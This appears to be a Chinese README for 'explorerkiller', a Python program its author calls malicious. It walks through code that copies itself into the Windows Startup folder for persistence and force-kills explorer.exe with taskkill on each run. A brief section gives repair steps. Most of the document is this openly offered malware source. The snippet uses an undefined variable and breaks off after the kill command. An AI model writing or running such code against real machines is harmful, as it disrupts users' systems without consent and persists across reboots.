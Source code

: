 # 文件资源管理器杀手（explorerkiller）
## 简介
这是一个基于python制作并编译的恶意程序。
## 安全提醒
玩归玩，闹归闹，别拿设备开玩笑。假如你不小心（故意不小心）将此病毒运行，其造成的破坏是可以修复的，修复方法：  
1.打开任务管理器（Ctrl+Shift+Esc），运行“explorer.exe”  
2.调出运行菜单（Win+R），输入“shell:startup”并打开，找到本程序并删除文件
## 原理与代码详解
### 导入库
```
import os  
import shutil  
import sys  
import subprocess  
```
os，shutil和sys库：用于获取启动文件夹路径并复制  
subprocess:用于结束文件资源管理器进程  
### 复制到启动文件夹
```
startup_folder = os.path.join(os.getenv('APPDATA'), 'Microsoft', 'Windows', 'Start Menu', 'Programs', 'Startup')
```
获取系统的启动文件夹路径  
```
script_name = os.path.basename(sys.argv[0])
```
获取程序名称  
```
def is_file_in_startup_folder(startup_folder, file_name):
    return file_name in os.listdir(startup_folder)
```
定义检查文件是否存在函数    
```
def copy_self_to_startup(startup_folder, script_path, script_name):
    destination_path = os.path.join(startup_folder, script_name)
    shutil.copyfile(script_path, destination_path)
    print(f"Copied {script_name} to {destination_path}")
```
定义复制文件函数  
```
if is_file_in_startup_folder(startup_folder, script_name):
    print("The file is already in the startup folder.")
else:
    copy_self_to_startup(startup_folder, script_path, script_name)
```
调用检查文件和复制文件函数，检查是否已有文件，假如没有，复制程序  
### 结束文件资源管理器
```
subprocess.run(['taskkill','/im','explorer.exe','/f'])







